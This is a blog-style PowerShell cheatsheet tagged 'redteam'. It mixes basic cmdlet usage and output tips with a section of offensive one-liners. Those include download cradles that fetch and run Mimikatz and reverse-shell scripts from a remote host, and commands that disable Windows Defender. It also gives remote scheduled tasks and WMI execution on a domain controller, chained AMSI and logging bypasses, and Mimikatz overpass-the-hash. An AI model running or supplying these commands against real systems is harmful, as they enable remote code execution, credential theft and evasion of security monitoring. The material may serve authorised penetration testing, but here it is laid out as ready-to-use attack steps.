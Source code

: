 ```yaml
---
author:
  name: "Piyush Verma"
date: 2021-10-29
linktitle: PowerShell Cheatsheet
type:
- post
- posts
title: PowerShell Cheatsheet
draft: false
toc: true
images:
tags:
  - PowerShell
  - cheatsheet
  - oneliner
  - redteam
weight: 10
---
```


{{<image src="https://media.giphy.com/media/8Iv5lqKwKsZ2g/giphy.gif" alt="alt text" width="400" height="180" position="center">}} 

This cheatsheet will continue to receive updates. 

## PowerShell (PS) 101 commands
---

Please note that all of the following commands are run from a PowerShell prompt.

Retrieve the PowerShell version
```powershell
 $PSVersionTable 
 ```

List help about a cmdlet in a readable format
```powershell 
Get-Help <cmdlet> | more
```

List cmdlets which contain the keyword 'service' in them
```powershell
Get-Command -CommandType Cmdlet | ?{$_.Name -match "service"}
```
List available commands in the current PS session and their respective details which contain the keyword 'command' in them:
```powershell
Get-Command -CommandType All -ShowCommandInfo | ?{$_.Name -match "command"}
```

Wildcards can be used to match as well. 
```powershell
Get-Command -CommandType All | ?{$_.Name -match "serv*"}
```

Count the number of commands in the output 
```powershell
(Get-Command -CommandType All | ?{$_.Name -match "command"}).count
```

List all cmdlets with PKI as source
```powershell
Get-Command -CommandType Cmdlet | ?{$_.Source -match "PKI"}
```

List available commands in a module by running
```powershell
Get-Command -Module <module name>
```

## Handy Tweaks
---

When you launch PowerShell session, it opens in the user's home directory by default. This behavior can be modified so that new PS sessions open in a custom directory. Here is how:

```powershell
# Check the value of $PROFILE variable.

PS C:\Windows\system32> $PROFILE
C:\Users\XXXXXXXXX\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1

# Create the .ps1 file returned from the $PROFILE variable

PS C:\Windows\system32> New-Item -Path $PROFILE -Type File -Force

# To set and change the default working directory, open the above 'Microsoft.PowerShell_profile.ps1' in ISE and add the following line with your desired path.

Set-location <Custom directory path>
```


## One-Liners
---

### Creating a firewall rule exception in Windows
```powershell
New-NetFirewallRule -DisplayName 'HTTP-Inbound' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('80', '443')

New-NetFirewallRule -DisplayName '447-Inbound' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('447')
```

### Download cradles
```powershell
# Option 1 - Using IEX (compatible with older versions of PS)

powershell iex (New-Object Net.WebClient).DownloadString("http://192.168.X.X/Invoke-MimikatzEX.ps1")

# Option 2 - Using IWR (works on current version of PS)

iwr -UseBasicparsing http://192.168.X.X/Invoke-PowerShellRev.ps1 | iex
```

### Creating a Credential object
```powershell
$SecPassword = ConvertTo-SecureString 'XXXXXXXXXXXX' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword)

```

### Decode Base64
```powershell
$EncodedText = “VABoA....”

$DecodedText = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($EncodedText))

$DecodedText
```

### Disable AV
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true

Set-MpPreference -DisableIOAVProtection $true
```
### Encode reverse shell
```powershell
. .\Invoke-Encode.ps1

Invoke-Encode -DataToEncode .\Invoke-PowerShellTcpOneLine.ps1 -OutCommand

# Open a listener (nc) on one end and on another shell use: 

powershell -e <content of encodedcommand.txt>
```

### Reverse shell using a Batch file
```powershell
# Create reverse.bat file

$Contents = 'powershell.exe -c iex ((New-Object Net.WebClient).DownloadString(''http://192.168.X.X/Invoke-PowerShellRev8080.ps1''))'
Out-File -Encoding Ascii -InputObject $Contents -FilePath C:\...\Tools\reverse8080.bat

# Call reverse.bat file

## Option 1
.rotten.exe * reverse.bat

## Option 2
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:srv.contoso.local /ntlm:<NTLMHASH> /run:C:\users\.....\desktop\reverse.bat"'
```

### Scheduled tasks
```powershell
schtasks /create /S dc.contoso.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "UserX" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.X.X/Invoke-PowerShellRev8080.ps1''')'"

schtasks /Run /S dc.contoso.local /TN "UserX"
```

### Invoke-WMIMethod - Command Execution (Reverse shell, etc.)
```powershell
Invoke-WmiMethod win32_process -ComputerName dc.contoso.local -name create -argumentlist "powershell.exe -e $encodedCommand"
```

### Chain powershell commands to Bypass SBLogging, then AMSIBypass and then get reverse shell
```powershell
powershell -c "iex (iwr -UseBasicParsing http://192.168.X.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.X.X/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.X.X/Invoke-PowerShellTcpEx.ps1)
```

### Check local admin access via Invoke-Command
```powershell
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName (Get-Content ..\Output\computers.txt) 2>$null
```

### Over pass-the-hash
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:srv.contoso.local /ntlm:<NTLMHASH> /run:powershell.exe"'
```

## Playing with command output
---

### 1. Expand redacted output

You might notice that sometimes the output returned by PS commands is redacted with "...". This can be corrected by modifying the value of the PS variable - ```$FormatEnumerationLimit``` as follows.

``` powershell
$FormatEnumerationLimit = -1
```

### 2. Using 'more' command

Piping output of a command to ``` more ``` command makes it readable from the first line. This is equivalent to ``` less``` command in Linux/Unix.

``` powershell
Get-Process | more
```

### 3. Using -ExpandProperty

``` powershell
Get-CimClass -Namespace root/SecurityCenter2 -MethodName * | select -ExpandProperty CimClassMethods
```

### 4. Exporting output in a CSV format

Sometimes (more than we'd think) having the output in a CSV file is a blessing. Here is how it can be done using ```Export-CSV``` cmdlet.

``` powershell
Get-Date | Select-Object -Property DateTime, Day, DayOfWeek, DayOfYear | Export-Csv -Path .\DateTime.csv -NoTypeInformation
```